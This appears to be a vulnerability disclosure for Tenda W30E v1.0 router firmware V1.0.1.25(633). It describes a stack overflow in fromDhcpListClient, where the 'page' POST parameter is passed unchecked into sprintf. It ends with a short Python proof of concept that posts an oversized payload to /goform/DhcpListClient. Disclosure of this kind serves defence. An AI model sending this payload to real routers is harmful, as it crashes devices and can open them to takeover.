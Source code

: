 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v4` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240320012345206](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012345206.png)

![image-20240320012325044](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012325044.png)

![image-20240320012335792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012335792.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102128135](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102128135.png)
